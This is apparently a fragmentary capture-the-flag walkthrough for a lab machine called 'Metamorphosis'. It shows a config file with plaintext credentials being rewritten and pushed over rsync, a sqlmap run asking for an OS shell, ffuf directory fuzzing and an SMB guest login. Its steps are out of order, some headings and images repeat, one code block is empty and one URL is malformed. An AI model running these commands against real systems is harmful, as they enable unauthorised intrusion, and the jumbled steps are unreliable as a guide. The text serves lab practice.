 ```bash
:~/Metamorphosis/Conf# cat webapp.ini
[Web_App]
env = dev
user = tom
password = theCat

[Details]
Local = No
```

```bash
:~/Metamorphosis/myConf# rsync -aPv webapp.ini rsync://xx.xxx.xx.xxx/Conf/webapp.ini
sending incremental file list
webapp.ini
             71 100%    0.00kB/s    0:00:00 (xfr#1, to-chk=0/1)

sent 186 bytes  received 41 bytes  454.00 bytes/sec
total size is 71  speedup is 0.31
```

<h2>/admin/</h2>

<img width="1117" height="174" alt="image" src="https://github.com/user-attachments/assets/8ca2b59d-abd4-481a-95fc-7cce7ee7a40c" />

<br>
<h2>sqlmap</h2>

```bash
:~/Metamorphosis/myConf# sqlmap -u http://10.201.34.170/admin/index.php --level 5 --risk 3 --batch --os-shell
```

<h2>/admin/</h2>

<img width="1117" height="174" alt="image" src="https://github.com/user-attachments/assets/8ca2b59d-abd4-481a-95fc-7cce7ee7a40c" />


<p>

- launched Burp Suite<br>
- enabled FoxyProxy<br>
- Username: <code>tom</code><br>
- clicked Submit Query<br>

</p>

<h2>tom</h2>

<img width="1115" height="163" alt="image" src="https://github.com/user-attachments/assets/bb8eed2f-d752-425c-9c7c-5453d1d54d19" />


```bash

```
ffuf -u http:/10.201.104.23/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fc 403 -e .phps
```

<h3>smb</h3>

```bash
:~/Metamorphosis# nxc smb metamorphosis.thm -u guest -p ''
SMB         10.201.104.23   445    IP-10-201-104-23 [*] Unix - Samba (name:IP-10-201-104-23) (domain:ec2.internal) (signing:False) (SMBv1:False) 
SMB         10.201.104.23   445    IP-10-201-104-23 [+] ec2.internal\guest: (Guest)
```
